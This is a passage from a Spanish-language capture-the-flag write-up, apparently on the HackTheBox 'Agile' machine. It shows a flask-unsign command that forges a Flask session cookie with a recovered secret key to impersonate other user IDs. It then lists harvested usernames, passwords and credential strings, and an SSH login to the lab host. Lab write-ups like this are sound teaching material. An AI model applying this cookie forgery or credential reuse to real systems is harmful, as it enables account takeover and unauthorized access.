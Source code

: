 ~~~bash
flask-unsign --sign --cookie "{'_flashes': [('message', 'Please log in to access this page.'), ('message', 'Please log in to access this page.')], '_fresh': True, '_id': 'fda9eeb3cacce1fd4cd0e921abc6ce78e0a9d9f800292c3012c8cb14fa8bad929be3542969759bf79ef9794b35b7a1dc136c8712eb9d1931cb868ff0740e4b90', '_user_id': '1'}" -S  MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD 
.eJydjkuKwzAQRK8iem0G_WypfYrZDyF0t1qxwUkGy1mF3H005AZZFUXVo-oJ57pRW7TB_PMEc3SBq7ZGF4UBvjelpma7X8x6M8fdkEgPzbGszfz2zhecXsOH3Gno47u2BeZjf2h3a4EZaiFU5SD_jKslSrGK3hHLJJqyWsKCNVvr0UuwzksWdrFSZirokTWM0eOEaUSuCbViwshh5ESuiAuT5OS8MhaHwQnnKddqU7QaGW2_f3403d9vHLz-APu_WkA.ZAYrig.VWDh3LEQeurRSGRbKa66sTMRUPA
~~~

![](/Agile/Pasted_image_20230306150725.png)

Luego lo intentamos con el  \_user_id: 2

![](/Agile/Pasted_image_20230306150956.png)

Users:

~~~bash
corum
runner
edwards
dev_admin
superpassuser
~~~

Passwords:

~~~bash
MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD
dSA6l7q*yIVs$39Ml6ywvgK
0k71JQ5bp0qM5tHnQe0w
~~~

~~~text
0xdf:762b430d32eea2f12970
0xdf:5b133f7a6a1c180646cb
corum:47ed1e73c955de230a1d
corum:9799588839ed0f98c211
corum:5db7caa1d13cc37c9fc2
~~~

## Getting a shell

Intentamos acceder a través de SSH con las credenciales del usuario Corum

~~~ bash
ssh corum@10.129.30.106
~~~

![](/Agile/Pasted_image_20230306155037.png)

### System Enumeration

Procesos interesantes
